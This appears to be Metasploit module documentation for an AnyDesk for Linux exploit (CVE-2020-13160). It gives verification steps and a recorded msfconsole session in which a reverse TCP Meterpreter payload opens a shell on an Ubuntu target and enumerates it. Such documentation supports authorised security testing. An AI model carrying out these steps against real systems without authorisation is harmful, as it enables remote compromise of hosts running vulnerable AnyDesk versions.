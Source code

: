 ## Vulnerable Application

This vulnerability affects Linux versions 5.5.2 and older. Old versions of AnyDesk can be downloaded from their site at
https://download.anydesk.com/linux/. Use the `.deb` package for an Ubuntu installation.

The `check` method on this exploit will send an AnyDesk discovery frame to the target host, which will cause the
target to respond with its own discovery frame. Each of these are sent from a random source port to the default AnyDesk
discovery service port of 50001. To configure the listening service in Metasploit, change the `SRVHOST` and `SRVPORT`
options. The exploit will use this method to detect the remote hostname and confirm that the operating system is Linux
before proceeding.

## Verification Steps

1. Install the application
1. Start the AnyDesk GUI. A window will open, leave it running.
1. Start `msfconsole`
1. Do: `use exploit/linux/misc/cve_2020_13160_anydesk`
1. Set the module options
1. Do: `exploit`
1. You should get a shell.

## Options

### SRVHOST

This option is used to specify the host on which to listen for discovery frames from AnyDesk.

### SRVPORT

This option is used to specify the port on which to listen for discovery frames from AnyDesk.

## Scenarios

### Ubuntu 18.04 x64

```
msf exploit(linux/misc/cve_2020_13160_anydesk) > use exploit/linux/misc/cve_2020_13160_anydesk 
msf exploit(linux/misc/cve_2020_13160_anydesk) > set RHOSTS 192.168.159.33
RHOSTS => 192.168.159.33
msf exploit(linux/misc/cve_2020_13160_anydesk) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/misc/cve_2020_13160_anydesk) > check
[*] 192.168.159.33:50001 - The service is running, but could not be validated. Remote hostname: ubuntu
msf exploit(linux/misc/cve_2020_13160_anydesk) > exploit

[*] Started reverse TCP handler on 192.168.250.87:4444 
[*] Discovered the remote service (hostname: ubuntu, os: linux)
[*] Sent exploit frame, waiting for the GUI to refresh to trigger the vulnerability...
[*] Sending stage (3012516 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.87:4444 -> 192.168.250.237:51044) at 2020-06-17 10:21:44 -0400

meterpreter > getuid
Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.33
OS           : Ubuntu 18.04 (Linux 5.3.0-59-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
